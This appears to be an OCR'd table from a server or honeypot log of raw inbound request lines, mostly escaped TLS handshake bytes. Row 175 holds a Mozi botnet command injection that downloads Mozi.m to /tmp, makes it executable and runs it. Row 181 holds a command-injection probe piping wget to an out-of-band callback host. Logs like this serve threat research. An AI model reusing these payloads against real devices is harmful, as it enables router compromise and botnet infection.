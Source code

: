 | 172 |                     1 | l\x00\x0B\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                    |
| 173 |                     1 | \x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xD7\xF7\xBA,\xEE\xEA\xB2`~\xF3\x00\xFD\x82{\xB9\xD5\x96\xC8w\x9B\xE6\xC4\xDB<=\xDBo\xEF\x10n\x00\x00(\x00\x16\x00\x13\x00                                                                                                                                                                                                                                               |
| 174 |                     1 | \x00\x0C\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                         |
| 175 |                     1 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                            |
| 176 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xC2|\xD7\x84Yy\xC3\xAD\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                   |
| 177 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x8F\x04\x01\xC9\xDD\x06\xCA\xD5k3T\x83\xEC(\xF8\xF6\xE5O\x16\x10\xBF\xA4Eh2u'\x9B\xC1\x15\x9Fj\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |
| 178 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xAAm}\x12_zW1Y\xB9\x84\x05pA\xB6k0c\xF9MK<\xAFc+\xEF\xC8\xDD\x8D\xED\xE9\xB0\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                            |
| 179 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03&C\x1B\xD8\xBA=<}(o\xB1\xF0Ux\x03\xE5\x9C\x8C\xB0\x86\xA6\x84\xC3\x05V\xF6*O\xF1\x8B\xC3\x93\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
| 180 |                     1 | GET /js/moment.min.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                   |
| 181 |                     1 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht0d143e3ec4uq5e.oast.site                                                                                                                                                                                                                                                                                                                                              |
| 182 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03R\x9E\xFF\x066^s\xDA\x09[\xF9\xA7\x8B\xF7\x9D\x98\xCA\x99w\x82~\x18\x9A\xE2\xEB^E\xBD\xD9f\xA3\x5C\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                       |
| 183 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03_\xAD:\x5Cb\xC9H\xEF\x1B\xBF\xF79\x22*8\xF5\xEB\x863Y\x90\xC7E\xA8\xF6\x99\xFCf\xB2\x01\xA0\x86\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                         |
| 184 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x00P{\x03\x8ER\x07mQ\x15\xAAS\xF2\xFE\xEB\xC4\xDD+\xBB\x82\x09\xDA\xB4\xBE\x97\x0ER\xA5                                                                                                                                                                                                                                                                             |